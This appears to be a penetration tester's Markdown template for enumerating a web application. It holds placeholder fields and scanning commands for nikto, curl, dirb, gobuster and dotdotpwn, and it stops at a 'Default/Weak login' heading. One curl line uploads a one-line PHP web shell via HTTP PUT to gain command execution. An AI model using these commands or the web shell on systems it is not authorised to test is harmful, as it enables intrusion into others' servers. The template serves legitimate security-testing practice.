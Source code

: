 
INSERT_CURL_HEADER

- Web application (ex, wordpress, joomla, phpmyadmin)
- Name:
- Version:
- Admin-login:


```
# Nikto
nikto -h http://INSERT_IP_ADDRESS

# Nikto with squid proxy
nikto -h INSERT_IP_ADDRESS -useproxy http://INSERT_IP_ADDRESS:4444

# Get header
curl -i INSERT_IP_ADDRESS

# Get everything
curl -i -L INSERT_IP_ADDRESS

# Check for title and all links
curl INSERT_IP_ADDRESS -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

# Look at page with just text
curl INSERT_IP_ADDRESS -s -L | html2text -width '99' | uniq

# Check if it is possible to upload
curl -v -X OPTIONS http://INSERT_IP_ADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERT_IP_ADDRESS/test/shell.php

dotdotpwn.pl -m http -h INSERT_IP_ADDRESS -M GET -o unix
```

#### Nikto scan


INSERT_NIKTO_SCAN


#### Url brute force

```
# Not recursive
dirb http://INSERT_IP_ADDRESS -r -o dirb-INSERT_IP_ADDRESS.txt

# Gobuster - remove relevant responde codes (403 for example)
gobuster -u http://INSERT_IP_ADDRESS -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
```

INSERT_DIRB_SCAN


#### Default/Weak login
